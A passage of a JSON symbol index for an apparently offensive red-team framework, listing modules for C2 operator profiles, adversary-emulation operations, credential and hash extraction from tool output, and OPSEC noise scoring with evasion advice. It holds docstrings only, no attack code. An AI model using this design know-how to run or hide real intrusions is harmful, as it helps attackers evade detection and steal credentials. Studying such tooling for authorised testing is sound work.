"name": "NotifyMessage", "signature": "class NotifyMessage"}, {"doc": "Single destination with its own filter and credentials.", "kind": "class", "line": 186, "name": "Channel", "signature": "class Channel"}, {"doc": "Filter, render, and dispatch messages across channels.", "kind": "class", "line": 204, "name": "Notifier", "signature": "class Notifier"}, {"kind": "function", "line": 105, "name": "_addr_denied", "signature": "def _addr_denied(addr)"}, {"kind": "class", "line": 158, "name": "_GuardRedirect", "signature": "class _GuardRedirect(HTTPRedirectHandler)"}, {"doc": "Validate channel kind and event compatibility.", "kind": "method", "line": 198, "name": "__post_init__", "signature": "def __post_init__(self)"}, {"doc": "Initialize with shared notification constants.", "kind": "method", "line": 207, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Apply event, severity, keyword and scope gates (LAZY parity).", "kind": "method", "line": 215, "name": "should_send", "signature": "def should_send(self, message, channel)"}, {"doc": "Render masked Markdown text for a message.", "kind": "method", "line": 238, "name": "render", "signature": "def render(self, message)"}, {"doc": "Fan out to eligible channels and journal deliveries.", "kind": "method", "line": 244, "name": "dispatch", "signature": "def dispatch(self, message, channels)"}, {"doc": "Emit one digest per channel when due (default 30m, LAZY parity).", "kind": "method", "line": 260, "name": "flush_digest", "signature": "def flush_digest(self, max_age_sec)"}, {"kind": "method", "line": 159, "name": "redirect_request", "signature": "def redirect_request(self, req, fp, code, msg, headers, newurl)"}]}, {"doc": "Sync community Nuclei template collections into the LazyOwn marketplace.  Clones each registered source into a temporary staging directory, removes every ``.git`` trace to avoid mixed-repository contamination, then replaces the canonical destination with the fresh working tree.  New template collections are registered in ``SOURCES`` (skill ``/marketplace-contributor`` Step 4c). Single-file tools, implants, and runnable scanners are NOT sources here; they ship as plain lazyaddons.  Usage: python3 nuclei_templates_sync.py python3 nuclei_templates_sync.py --source nuclei-templates --refresh-existing python3 nuclei_templates_sync.py --source nuclei-templates --dest ~/nuclei-templates", "id": "modules/nuclei_templates_sync.py", "kind": "module", "label": "nuclei_templates_sync.py", "language": "py", "sha256": "7d28b04dfca7771a", "symbol_count": 16, "symbols": [{"doc": "Return the LazyOwn repository root derived from this file location.\n\nReturns:\n    Repository root path (parent of the ``modules/`` directory).", "kind": "function", "line": 39, "name": "repo_root", "signature": "def repo_root()"}, {"doc": "Return the canonical marketplace destination for a source.\n\nArgs:\n    subdir: Source subdirectory under ``external/.exploit``.\n\nReturns:\n    ``<repo>/external/.exploit/<subdir>`` path.", "kind": "function", "line": 48, "name": "canonical_dest", "signature": "def canonical_dest(subdir)"}, {"doc": "Run a subprocess capturing output as text without raising.\n\nArgs:\n    argv: Command and arguments to execute.\n    cwd: Optional working directory.\n\nReturns:\n    Completed process handle with captured stdout and stderr.", "kind": "function", "line": 60, "name": "run", "signature": "def run(argv, cwd)"}, {"doc": "Abort with a clear message when the git binary is missing.\n\nRaises:\n    SystemExit: Always raised with code 1 when git is not on PATH.", "kind": "function", "line": 73, "name": "ensure_git_available", "signature": "def ensure_git_available()"}, {"doc": "Shallow-clone the template repository into the staging directory.\n\nArgs:\n    repo: Git URL of the template collection.\n    staging: Empty staging directory that receives the clone.\n\nReturns:\n    Tuple of the cloned tree path and its HEAD commit hash.\n\nRaises:\n    SystemExit: Raised with code 1 when the clone fails.", "kind": "function", "line": 84, "name": "clone_templates", "signature": "def clone_templates(repo, staging)"}, {"doc": "Remove every .git file or directory under the staged tree.\n\nArgs:\n    tree: Staged working tree to clean.\n\nReturns:\n    Number of .git traces removed.", "kind": "function", "line": 113, "name": "strip_git_traces", "signature": "def strip_git_traces(tree)"}, {"doc": "Count Nuclei template files under a directory tree.\n\nArgs:\n    tree: Directory tree to scan.\n\nReturns:\n    Number of ``*.yaml`` files found.", "kind": "function", "line": 132, "name": "count_templates", "signature": "def count_templates(tree)"}, {"doc": "Atomically replace the destination with the staged tree contents.\n\nArgs:\n    src: Staged clean tree acting as the source.\n    dest: Destination directory to replace.\n    expected: Expected destination directory name guard.\n\nRaises:\n    SystemExit: Raised with code 1 when the destination name guard fails\n        or the staged tree holds fewer templates than expected.", "kind": "function", "line": 144, "name": "replace_dest", "signature": "def replace_dest(src, dest, expected)"}, {"doc": "Check whether an existing clone points at the expected remote.\n\nArgs:\n    path: Local clone to inspect.\n    repo: Expected upstream repository URL.\n\nReturns:\n    True when the clone origin matches the expected remote.", "kind": "function", "line": 168, "name": "same_remote", "signature": "def same_remote(path, repo)"}, {"doc": "Fast-forward an existing clean clone of the same remote.\n\nArgs:\n    path: Local clone candidate.\n    repo: Expected upstream repository URL.\n\nReturns:\n    True when the clone was fast-forwarded successfully.", "kind": "function", "line": 188, "name": "refresh_existing_clone", "signature": "def refresh_existing_clone(path, repo)"}, {"doc": "Validate a template subset with the nuclei binary when available.\n\nArgs:\n    dest: Destination directory holding the synced templates.\n    subset: Relative subset directory to validate.\n\nReturns:\n    True on success, False on validation failure, None when the nuclei\n    binary or the subset directory is unavailable.", "kind": "function", "line": 209, "name": "validate_subset", "signature": "def validate_subset(dest, subset)"}, {"doc": "Build the command line parser for the sync script.\n\nReturns:\n    Configured argument parser.", "kind": "function", "line": 238, "name": "build_parser", "signature": "def build_parser()"}, {"doc": "Clone, clean, and install one template source.\n\nArgs:\n    name: Registered source name.\n    repo: Template collection git URL.\n    dest: Destination directory to replace.\n    refresh_existing: Fast-forward existing clean clones as well.\n    skip_validate: Skip the nuclei validation step.\n\nReturns:\n    Summary dictionary with source, commit, counts, destination,\n    refreshed clones, removed git traces, and validation outcome.", "kind": "function", "line": 263, "name": "sync", "signature": "def sync(name, repo, dest, refresh_existing, skip_validate)"}, {"doc": "Resolve the requested sources into (name, repo, dest) work items.\n\nArgs:\n    args: Parsed command line arguments.\n\nReturns:\n    Work item list, one tuple per source to sync.\n\nRaises:\n    SystemExit: Raised with code 2 on unknown sources or overrides\n        combined with multiple sources.", "kind": "function", "line": 308, "name": "resolve_plan", "signature": "def resolve_plan(args)"}, {"doc": "Entry point for the template sync script.\n\nArgs:\n    argv: Optional argument list for testing.\n\nReturns:\n    Process exit code, 0 on success.", "kind": "function", "line": 337, "name": "main", "signature": "def main(argv)"}, {"kind": "function", "line": 179, "name": "normalize", "signature": "def normalize(url)"}]}, {"doc": "modules/obs_parser.py ====================== Observation parser: extracts structured findings from raw tool output.  Converts unstructured text (nmap, gobuster, crackmapexec, enum4linux, etc.) into typed Finding objects that the WorldModel can ingest directly.  Extractors are independent, additive, and follow Open/Closed: - Add a new extractor by subclassing Extractor and registering it. - Existing extractors are never modified to support new patterns.  Design ------ - Single Responsibility : each Extractor owns one finding type - Open/Closed           : new types via new Extractor subclass - Liskov                : all Extractor subclasses honour the same contract - Interface Segregation : consumers only see FindingType, Finding, Observation - Dependency Inversion  : ObsParser depends on Extractor abstraction  Usage ----- from modules.obs_parser import ObsParser  parser = ObsParser() obs    = parser.parse(nmap_output, host=\"10.10.11.78\", tool=\"nmap\")  for finding in obs.findings: print(finding.type, finding.value, finding.confidence)", "id": "modules/obs_parser.py", "kind": "module", "label": "obs_parser.py", "language": "py", "sha256": "3089a36093da6f24", "symbol_count": 41, "symbols": [{"kind": "class", "line": 50, "name": "FindingType", "signature": "class FindingType(StrEnum)"}, {"kind": "class", "line": 66, "name": "Finding", "signature": "class Finding"}, {"kind": "class", "line": 76, "name": "Observation", "signature": "class Observation"}, {"doc": "Base class for a single finding-type extractor.", "kind": "class", "line": 95, "name": "Extractor", "signature": "class Extractor(ABC)"}, {"doc": "Holds the ordered list of active Extractor instances.", "kind": "class", "line": 103, "name": "_ExtractorRegistry", "signature": "class _ExtractorRegistry"}, {"kind": "class", "line": 127, "name": "_IPExtractor", "signature": "class _IPExtractor(Extractor)"}, {"doc": "Matches user:password patterns from tool output.", "kind": "class", "line": 145, "name": "_CredentialExtractor", "signature": "class _CredentialExtractor(Extractor)"}, {"doc": "Extracts service name + version from nmap-style output.", "kind": "class", "line": 193, "name": "_ServiceVersionExtractor", "signature": "class _ServiceVersionExtractor(Extractor)"}, {"doc": "Extracts URL paths from gobuster / ffuf / nikto output.", "kind": "class", "line": 219, "name": "_PathExtractor", "signature": "class _PathExtractor(Extractor)"}, {"doc": "Extracts usernames from enum4linux / kerbrute / rpcclient output.", "kind": "class", "line": 235, "name": "_UsernameExtractor", "signature": "class _UsernameExtractor(Extractor)"}, {"doc": "Extracts NTLM and other hashes from tool output.", "kind": "class", "line": 257, "name": "_HashExtractor", "signature": "class _HashExtractor(Extractor)"}, {"doc": "Extracts CVE identifiers from any output.", "kind": "class", "line": 283, "name": "_CVEExtractor", "signature": "class _CVEExtractor(Extractor)"}, {"doc": "Extracts hostnames and domain names.", "kind": "class", "line": 299, "name": "_DomainExtractor", "signature": "class _DomainExtractor(Extractor)"}, {"doc": "Extracts email addresses from tool output.", "kind": "class", "line": 318, "name": "_EmailExtractor", "signature": "class _EmailExtractor(Extractor)"}, {"doc": "Detects error / failure indicators in output.", "kind": "class", "line": 334, "name": "_ErrorExtractor", "signature": "class _ErrorExtractor(Extractor)"}, {"doc": "Extracts IAM roles, ARNs, and K8s resources from cloud tool output.", "kind": "class", "line": 355, "name": "_CloudIdentityExtractor", "signature": "class _CloudIdentityExtractor(Extractor)"}, {"doc": "Heuristic: decide whether a tool output represents a successful execution.\nNot a precise classifier — supplements the policy engine rather than replacing it.", "kind": "class", "line": 390, "name": "_SuccessDetector", "signature": "class _SuccessDetector"}, {"doc": "Parses raw tool output into an Observation containing typed Findings.\n\nEach registered Extractor runs independently. The order does not matter.\nNew extractors can be added via ObsParser.register(extractor).", "kind": "class", "line": 423, "name": "ObsParser", "signature": "class ObsParser"}, {"doc": "Return (or create) the module-level singleton ObsParser.", "kind": "function", "line": 500, "name": "get_parser", "signature": "def get_parser()"}, {"doc": "Module-level convenience wrapper.", "kind": "function", "line": 508, "name": "parse", "signature": "def parse(output, host, tool)"}, {"kind": "method", "line": 83, "name": "by_type", "signature": "def by_type(self, ftype)"}, {"kind": "method", "line": 86, "name": "has", "signature": "def has(self, ftype)"}, {"doc": "Return all findings of this type found in *text*.", "kind": "method", "line": 99, "name": "extract", "signature": "def extract(self, text, host)"}, {"kind": "method", "line": 106, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 109, "name": "register", "signature": "def register(self, extractor)"}, {"kind": "method", "line": 112, "name": "run_all", "signature": "def run_all(self, text, host)"}, {"kind": "method", "line": 134, "name": "extract", "signature": "def extract(self, text, host)"}, {"kind": "method", "line": 175, "name": "extract", "signature": "def extract(self, text, host)"}, {"kind": "method", "line": 198, "name": "extract", "signature": "def extract(self, text, host)"}, {"kind": "method", "line": 224, "name": "extract", "signature": "def extract(self, text, host)"}, {"kind": "method", "line": 245, "name": "extract", "signature": "def extract(self, text, host)"}, {"kind": "method", "line": 271, "name": "extract", "signature": "def extract(self, text, host)"}, {"kind": "method", "line": 288, "name": "extract", "signature": "def extract(self, text, host)"}, {"kind": "method", "line": 305, "name": "extract", "signature": "def extract(self, text, host)"}, {"kind": "method", "line": 323, "name": "extract", "signature": "def extract(self, text, host)"}, {"kind": "method", "line": 345, "name": "extract", "signature": "def extract(self, text, host)"}, {"kind": "method", "line": 367, "name": "extract", "signature": "def extract(self, text, host)"}, {"kind": "method", "line": 407, "name": "is_success", "signature": "def is_success(self, text)"}, {"kind": "method", "line": 431, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Register an additional Extractor (Open/Closed extension point).", "kind": "method", "line": 450, "name": "register", "signature": "def register(self, extractor)"}, {"doc": "Parse *output* and return an Observation.\n\nParameters\n----------\noutput : raw text from a tool (nmap, gobuster, enum4linux, etc.)\nhost   : IP or hostname the tool was run against\ntool   : tool name (for context only — does not affect extraction)", "kind": "method", "line": 454, "name": "parse", "signature": "def parse(self, output, host, tool)"}]}, {"id": "modules/ooficesod0woodo.py", "kind": "module", "label": "ooficesod0woodo.py", "language": "py", "sha256": "c6683310d1277c07", "symbol_count": 0, "symbols": []}, {"doc": "Caldera-style operation lifecycle: create, start, pause, resume, stop, status.  Operations are persistent, time-bounded adversary emulations that wrap the existing :class:`modules.playbook_engine.PlaybookEngine` and bridge its output into the :class:`modules.world_model.WorldModel` and :class:`modules.obs_parser.ObsParser` fact store.  Each operation has: - A name and target - A list of steps (PlaybookStep from playbook_engine) - A status (planned, running, paused, completed, stopped, failed) - An event log (timeline) - A produced-facts index - A TTP coverage map (technique_id -> status)  Operations persist to ``sessions/operations/<id>.json`` so they survive shell restarts and can be resumed across shifts.", "id": "modules/operation.py", "kind": "module", "label": "operation.py", "language": "py", "sha256": "41bfcf8419b664ad", "symbol_count": 23, "symbols": [{"kind": "class", "line": 42, "name": "OperationStatus", "signature": "class OperationStatus(StrEnum)"}, {"kind": "class", "line": 52, "name": "OpEvent", "signature": "class OpEvent"}, {"kind": "class", "line": 63, "name": "OperationStep", "signature": "class OperationStep"}, {"kind": "class", "line": 79, "name": "Operation", "signature": "class Operation"}, {"doc": "Persistent store and executor for Operation objects.", "kind": "class", "line": 180, "name": "OperationManager", "signature": "class OperationManager"}, {"doc": "Return a fresh :class:`OperationManager`.", "kind": "function", "line": 471, "name": "get_manager", "signature": "def get_manager()"}, {"kind": "method", "line": 98, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 116, "name": "from_dict", "signature": "def from_dict(cls, d)"}, {"kind": "method", "line": 134, "name": "save", "signature": "def save(self)"}, {"kind": "method", "line": 143, "name": "log_event", "signature": "def log_event(self, step_index, step_name, status, summary, findings_count, error)"}, {"kind": "method", "line": 164, "name": "record_facts", "signature": "def record_facts(self, findings)"}, {"kind": "method", "line": 183, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "List all persisted operations.", "kind": "method", "line": 187, "name": "list", "signature": "def list(self)"}, {"kind": "method", "line": 199, "name": "get", "signature": "def get(self, op_id)"}, {"doc": "Create a new planned operation.", "kind": "method", "line": 206, "name": "create", "signature": "def create(self, name, target, apt_name, description)"}, {"doc": "Populate steps from an APT playbook YAML (or fall back to a derived MITRE playbook).\n\nArgs:\n    op: The operation to populate.\n    playbook_yaml_path: Path to a playbook YAML. If ``None``,\n        derives a playbook from the MITRE STIX2 store.", "kind": "method", "line": 225, "name": "plan_from_apt", "signature": "def plan_from_apt(self, op, playbook_yaml_path)"}, {"doc": "Start or resume a planned operation.\n\nArgs:\n    op_id: The operation ID.\n    executor: Optional callable ``(command, host) -> output``.\n        Defaults to a no-op for safe dry-runs.", "kind": "method", "line": 287, "name": "start", "signature": "def start(self, op_id, executor)"}, {"kind": "method", "line": 369, "name": "pause", "signature": "def pause(self, op_id)"}, {"kind": "method", "line": 378, "name": "resume", "signature": "def resume(self, op_id, executor)"}, {"kind": "method", "line": 386, "name": "stop", "signature": "def stop(self, op_id)"}, {"doc": "Return a structured status dict for an operation.", "kind": "method", "line": 396, "name": "status", "signature": "def status(self, op_id)"}, {"kind": "method", "line": 425, "name": "timeline", "signature": "def timeline(self, op_id)"}, {"kind": "method", "line": 431, "name": "report", "signature": "def report(self, op_id)"}]}, {"doc": "Multi-operator profile management for LazyOwn team server.  Each operator gets an isolated profile directory with its own: - config (payload subset: lhost, lport, listeners) - generated TLS certificates (per-operator C2 identity) - command history and audit log  Design ------ - Profiles stored under ``sessions/operators/<username>/`` - Master ``payload.json`` is the team-wide baseline - Per-operator overrides in ``operator.json`` inside each profile - Certificates auto-generated on profile creation (CA + operator cert) - All actions attributed to the operator who performed them", "id": "modules/operator_profiles.py", "kind": "module", "label": "operator_profiles.py", "language": "py", "sha256": "41ed8a79348dbe7b", "symbol_count": 20, "symbols": [{"doc": "Per-operator configuration and state.", "kind": "class", "line": 38, "name": "OperatorProfile", "signature": "class OperatorProfile"}, {"doc": "CRUD for operator profiles with certificate generation.\n\nUsage::\n\n    mgr = OperatorProfileManager()\n    mgr.create_profile(\"grisun0\", display_name=\"Gris Iscomeback\")\n    profile = mgr.load_profile(\"grisun0\")\n    mgr.set_attribute(\"grisun0\", \"elo\", 1500)", "kind": "class", "line": 77, "name": "OperatorProfileManager", "signature": "class OperatorProfileManager"}, {"doc": "Return the singleton :class:`OperatorProfileManager`.", "kind": "function", "line": 398, "name": "get_operator_profile_manager", "signature": "def get_operator_profile_manager()"}, {"kind": "method", "line": 57, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 88, "name": "__init__", "signature": "def __init__(self)"}, {"doc": "Generate a team CA certificate if none exists.", "kind": "method", "line": 93, "name": "_ensure_team_ca", "signature": "def _ensure_team_ca(self)"}, {"kind": "method", "line": 124, "name": "_profile_dir", "signature": "def _profile_dir(self, username)"}, {"kind": "method", "line": 127, "name": "_profile_path", "signature": "def _profile_path(self, username)"}, {"doc": "Generate per-operator TLS cert signed by team CA.\n\nReturns:\n    Tuple of (cert_path, key_path).", "kind": "method", "line": 130, "name": "_generate_operator_cert", "signature": "def _generate_operator_cert(self, username)"}, {"doc": "Create a new operator profile.\n\nArgs:\n    username: Unique operator identifier.\n    display_name: Human-readable name.\n    role: RBAC role (``operator``, ``admin``, ``viewer``).\n    lhost: Operator's C2 listener IP override.\n    lport: Operator's reverse shell port override.\n    listener_port: Operator's listener port override.\n    c2_port: Operator's C2 dashboard port override.\n    c2_malleable_route: Per-operator malleable route.\n    user_agent: Per-operator user agent.\n    attributes: Arbitrary key-value metadata.\n\nReturns:\n    The created :class:`OperatorProfile`.\n\nRaises:\n    ValueError: If the profile already exists.", "kind": "method", "line": 192, "name": "create_profile", "signature": "def create_profile(self, username, display_name, role, lhost, lport, listener_port, c2_port, c2_malleable_route, user_agent, attributes)"}, {"kind": "method", "line": 255, "name": "_save_profile", "signature": "def _save_profile(self, profile)"}, {"doc": "Load an operator profile.\n\nReturns:\n    :class:`OperatorProfile` or None.", "kind": "method", "line": 260, "name": "load_profile", "signature": "def load_profile(self, username)"}, {"doc": "Update fields on an existing profile.", "kind": "method", "line": 276, "name": "update_profile", "signature": "def update_profile(self, username)"}, {"doc": "Delete an operator profile and its directory.", "kind": "method", "line": 289, "name": "delete_profile", "signature": "def delete_profile(self, username)"}, {"doc": "Return all operator profiles.", "kind": "method", "line": 300, "name": "list_profiles", "signature": "def list_profiles(self)"}, {"doc": "Update last_active timestamp.", "kind": "method", "line": 312, "name": "touch_activity", "signature": "def touch_activity(self, username)"}, {"doc": "Set a custom attribute on an operator profile.", "kind": "method", "line": 319, "name": "set_attribute", "signature": "def set_attribute(self, username, key, value)"}, {"doc": "Get a custom attribute from an operator profile.", "kind": "method", "line": 328, "name": "get_attribute", "signature": "def get_attribute(self, username, key, default)"}, {"doc": "Append an audited action to the operator's audit log.\n\nArgs:\n    username: Operator identifier.\n    action: Action name (e.g. ``\"issue_command\"``, ``\"modify_config\"``).\n    details: Optional structured context.", "kind": "method", "line": 335, "name": "log_action", "signature": "def log_action(self, username, action, details)"}, {"doc": "Merge team baseline (payload.json) with per-operator overrides.\n\nOperator-specific fields (lhost, lport, listener_port, c2_port,\nc2_malleable_route, user_agent) take precedence over the team\nbaseline. All other fields come from the team config.\n\nArgs:\n    username: Operator identifier.\n\nReturns:\n    Merged configuration dict.", "kind": "method", "line": 360, "name": "effective_config", "signature": "def effective_config(self, username)"}]}, {"doc": "OPSEC scoring engine — pre-execution noise assessment and gated scoring.  Single contract module for every OPSEC evaluation in the framework. It exposes two complementary scorers that share one set of risk primitives:  - :class:`OpsecScorer` — lightweight pre-execution noise assessment that returns a :class:`OpsecScore` with a plain-text risk label. Used for advisory warnings before running a command.  - :class:`OpsecScorerV2` — real-time, context-aware scoring with action gating (allow / warn / confirm / block) and session trend tracking. Returns a :class:`GatedOpsecScore`.  Both share the risk-threshold mapping (see :func:`_risk_bucket`), so the noise-to-risk translation is defined exactly once. The two command tables — :data:`COMMAND_NOISE` and :data:`COMMAND_RISK_PROFILES` — remain distinct by design: the former drives advisory noise scoring while the latter drives gating with its own threat model and extra exfiltration payload profiles.  Usage: from modules.opsec_scorer import OpsecScorer, OpsecScorerV2, OpsecContext  scorer = OpsecScorer(payload) score = scorer.score(\"secretsdump\", rhost=\"10.10.11.5\")  gated = OpsecScorerV2(context=OpsecContext(killchain_phase=\"credential_access\")) assessment = gated.assess(\"mimikatz\")", "id": "modules/opsec_scorer.py", "kind": "module", "label": "opsec_scorer.py", "language": "py", "sha256": "99700db590d296c4", "symbol_count": 36, "symbols": [{"doc": "OPSEC risk levels ordered by severity.", "kind": "class", "line": 170, "name": "RiskLevel", "signature": "class RiskLevel(IntEnum)"}, {"doc": "Action gating decisions for command execution.", "kind": "class", "line": 180, "name": "GateAction", "signature": "class GateAction(IntEnum)"}, {"doc": "Return a zero-based severity bucket (0..3) for a 0-10 noise score.\n\nArgs:\n    noise: A clamped 0-10 noise value.\n\nReturns:\n    0 for low, 1 for medium, 2 for high, 3 for critical.", "kind": "function", "line": 189, "name": "_risk_bucket", "signature": "def _risk_bucket(noise)"}, {"doc": "Return the human-readable risk label for a noise score.\n\nArgs:\n    noise: A clamped 0-10 noise value.\n\nReturns:\n    One of ``low``, ``medium``, ``high``, ``critical``.", "kind": "function", "line": 207, "name": "_risk_label", "signature": "def _risk_label(noise)"}, {"doc": "Return the :class:`RiskLevel` enum value for a noise score.\n\nArgs:\n    noise: A clamped 0-10 noise value.\n\nReturns:\n    The matching :class:`RiskLevel`, never ``NONE`` for a scored command.", "kind": "function", "line": 219, "name": "_risk_level", "signature": "def _risk_level(noise)"}, {"doc": "Real-time operational context for gated OPSEC scoring.\n\nAttributes:\n    killchain_phase: Current phase (recon, scan, enum, exploit, etc.).\n    rhost: Target IP address.\n    target_environment: Target environment type.\n    access_level: Current access level on target.\n    edr_detected: Whether EDR/AV was detected on target.\n    siem_detected: Whether SIEM/correlation was observed.\n    time_window: Operation time window.\n    credential_type: Type of credentials in use.\n    is_privileged: Whether running as privileged user on target.\n    evasion_active: Whether evasion measures are active.\n    artifacts_created: Count of artifacts left so far.\n    session_uptime_minutes: Minutes since session start.", "kind": "class", "line": 232, "name": "OpsecContext", "signature": "class OpsecContext"}, {"doc": "Advisory OPSEC assessment for a single command.\n\nAttributes:\n    command: Command being assessed.\n    noise_score: 0-10 noise rating.\n    detection_risk: Human-readable detection risk label.\n    risk_level: Plain-text risk label (low/medium/high/critical).\n    confidence: 0-1 confidence in the assessment.\n    detectable_by: Detection systems that may observe the command.\n    mitigation: Suggested mitigations.\n    recommendation: Human-readable guidance.", "kind": "class", "line": 265, "name": "OpsecScore", "signature": "class OpsecScore"}, {"doc": "Context-aware, gated OPSEC assessment for a single command.\n\nAttributes:\n    command: Command being assessed.\n    risk_level: Numeric risk level.\n    risk_label: Human-readable risk label.\n    noise_score: 0-10 noise rating.\n    detection_surface: Detection systems triggered.\n    gate_action: Whether to allow, warn, confirm, or block.\n    mitigations: Suggested mitigations ranked by effectiveness.\n    alternative_commands: Lower-noise alternatives if available.\n    explanation: Human-readable rationale for the score.\n    timestamp: Unix timestamp of the assessment.", "kind": "class", "line": 303, "name": "GatedOpsecScore", "signature": "class GatedOpsecScore"}, {"doc": "Pre-execution OPSEC evaluator for LazyOwn commands.\n\nScores commands on base noise, phase-appropriate tool usage, target\nsensitivity, evasion status, and detection tool coverage.\n\nAttributes:\n    payload: Configuration dict from payload.json.\n    world_model: Optional world model for target context.\n    evasion_active: Whether any evasion mechanism is enabled.", "kind": "class", "line": 331, "name": "OpsecScorer", "signature": "class OpsecScorer"}, {"doc": "Real-time OPSEC scoring engine with action gating.\n\nEvaluates each command against the current operational context,\nproducing a :class:`RiskLevel` and :class:`GateAction`.\n\nAttributes:\n    context: Current operational context.\n    score_history: Chronological list of past scores for trend analysis.\n    risk_threshold: Maximum allowed risk before blocking.\n    environment_profiles: Predefined risk profiles per target type.", "kind": "class", "line": 559, "name": "OpsecScorerV2", "signature": "class OpsecScorerV2"}, {"doc": "Convenience function: score a single command without creating a scorer instance.\n\nArgs:\n    command: LazyOwn command to evaluate.\n    payload: Configuration dict (loaded from payload.json if None).\n    rhost: Target IP for sensitivity.\n\nReturns:\n    OpsecScore dataclass instance.", "kind": "function", "line": 811, "name": "score_command", "signature": "def score_command(command, payload, rhost)"}, {"doc": "Return the score serialized as a plain dictionary.", "kind": "method", "line": 288, "name": "to_dict", "signature": "def to_dict(self)"}, {"kind": "method", "line": 343, "name": "__init__", "signature": "def __init__(self, payload, world_model)"}, {"kind": "method", "line": 352, "name": "evasion_active", "signature": "def evasion_active(self)"}, {"kind": "method", "line": 357, "name": "traffic_morphing_active", "signature": "def traffic_morphing_active(self)"}, {"doc": "Score an OPSEC risk for ``command`` against ``rhost``.\n\nArgs:\n    command: LazyOwn command alias to evaluate.\n    rhost: Target IP for sensitivity analysis.\n    phase_override: Force a phase context (default: from world_model).\n\nReturns:\n    OpsecScore with risk assessment and recommendations.", "kind": "method", "line": 365, "name": "score", "signature": "def score(self, command, rhost, phase_override)"}, {"doc": "Score multiple commands and return {command: OpsecScore}.", "kind": "method", "line": 413, "name": "score_batch", "signature": "def score_batch(self, commands, rhost)"}, {"doc": "Return mitigation suggestions for a given command.", "kind": "method", "line": 417, "name": "suggest_mitigations", "signature": "def suggest_mitigations(self, command, detectable_by)"}, {"doc": "Heuristically estimate noise for unknown commands.", "kind": "method", "line": 426, "name": "_estimate_noise", "signature": "def _estimate_noise(self, command)"}, {"kind": "method", "line": 448, "name": "_phase_mismatch_penalty", "signature": "def _phase_mismatch_penalty(self, tool_phase, override)"}, {"kind": "method", "line": 470, "name": "_target_sensitivity_bonus", "signature": "def _target_sensitivity_bonus(self, rhost)"}, {"kind": "method", "line": 479, "name": "_get_host_purpose", "signature": "def _get_host_purpose(self, rhost)"}, {"kind": "method", "line": 498, "name": "_evasion_reduction", "signature": "def _evasion_reduction(self, detectable)"}, {"kind": "method", "line": 510, "name": "_gather_mitigations", "signature": "def _gather_mitigations(self, detectable, noise)"}, {"doc": "Return the plain-text risk label for a noise score.", "kind": "method", "line": 527, "name": "_noise_to_risk", "signature": "def _noise_to_risk(noise)"}, {"kind": "method", "line": 532, "name": "_detection_risk_label", "signature": "def _detection_risk_label(detectable, noise)"}, {"kind": "method", "line": 544, "name": "_build_recommendation", "signature": "def _build_recommendation(risk_level, mitigations)"}, {"kind": "method", "line": 617, "name": "__init__", "signature": "def __init__(self, context)"}, {"doc": "Assess OPSEC risk for a command in the current context.\n\nArgs:\n    command: The command string to evaluate.\n    extra_context: Additional context overrides.\n\nReturns:\n    GatedOpsecScore with risk assessment and gating decision.", "kind": "method", "line": 622, "name": "assess", "signature": "def assess(self, command, extra_context)"}, {"doc": "Quick gating check - returns (allowed, score).\n\nArgs:\n    command: Command string to check.\n\nReturns:\n    Tuple of (is_allowed: bool, assessment: GatedOpsecScore).", "kind": "method", "line": 696, "name": "should_allow", "signature": "def should_allow(self, command)"}, {"doc": "Analyze OPSEC risk trend over the session.\n\nReturns:\n    Dict with trend data: escalating, stable, or improving.", "kind": "method", "line": 709, "name": "get_trend", "signature": "def get_trend(self)"}, {"doc": "Return the RiskLevel enum for a noise score.", "kind": "method", "line": 739, "name": "_noise_to_risk", "signature": "def _noise_to_risk(noise)"}, {"kind": "method", "line": 743, "name": "_risk_to_gate", "signature": "def _risk_to_gate(self, risk)"}, {"kind": "method", "line": 753, "name": "_generate_mitigations", "signature": "def _generate_mitigations(noise, detects)"}, {"kind": "method", "line": 777, "name": "_find_alternatives", "signature": "def _find_alternatives(cmd)"}, {"kind": "method", "line": 796, "name": "_build_explanation", "signature": "def _build_explanation(cmd, noise, detects, gate)"}]}, {"doc": "Operator configuration for the loop core: pipeline stages and auto verbs.  Single source of truth for *what the orchestrator fires* and *which auto verbs it may propose or execute*. Defaults live here; operator overrides persist under ``payload.json`` -> ``orchestrator`` so the TUI, the engine and the registry always read the same merged view.  Layout of the payload section::  { \"orchestrator\": { \"stages\": {\"compact\": {\"enabled\": false}}, \"auto_verbs\": { \"automsf\": {\"enabled\": false}, \"myscan\": {\"enabled\": true, \"keywords\": [\"myscan\"], \"needs_target\": true, \"description\": \"custom verb\"} } } }", "id": "modules/orchestrator_config.py", "kind": "module", "label": "orchestrator_config.py", "language": "py", "sha256": "278464184b654a86", "symbol_count": 13, "symbols": [{"doc": "Drop the merged-view cache after a write.", "kind": "function", "line": 74, "name": "_invalidate", "signature": "def _invalidate()"}, {"doc": "Load the live payload mapping (empty on failure).", "kind": "function", "line": 82, "name": "_payload", "signature": "def _payload()"}, {"doc": "Return the ``orchestrator`` payload section.", "kind": "function", "line": 92, "name": "_section", "signature": "def _section(payload)"}, {"doc": "Persist the payload through core.config and refresh the cache.", "kind": "function", "line": 97, "name": "_save", "signature": "def _save(payload)"}, {"doc": "Merged stage view: enabled flag, label and firing condition.", "kind": "function", "line": 105, "name": "stages", "signature": "def stages()"}, {"doc": "Return whether one pipeline stage is enabled (unknown = enabled).", "kind": "function", "line": 130, "name": "stage_enabled", "signature": "def stage_enabled(name)"}, {"doc": "Persist the enabled flag of one stage.\n\nArgs:\n    name: Stage identifier from :data:`STAGE_DEFS`.\n    enabled: New flag.\n\nReturns:\n    The updated merged stage view for that stage.\n\nRaises:\n    KeyError: Unknown stage name.", "kind": "function", "line": 136, "name": "set_stage", "signature": "def set_stage(name, enabled)"}, {"doc": "Merged auto-verb view: built-ins plus operator overrides and additions.\n\nEach entry carries ``name``, ``enabled``, ``phases``, ``keywords``,\n``needs_target``, ``extra_args``, ``description`` and ``source``\n(``builtin`` or ``custom``).", "kind": "function", "line": 161, "name": "effective_verbs", "signature": "def effective_verbs()"}, {"doc": "Return the merged configuration of one auto verb, or None.", "kind": "function", "line": 218, "name": "verb_config", "signature": "def verb_config(name)"}, {"doc": "Return whether one auto verb may be proposed or executed.", "kind": "function", "line": 227, "name": "verb_enabled", "signature": "def verb_enabled(name)"}, {"doc": "Create or update one auto-verb override in the payload.\n\nArgs:\n    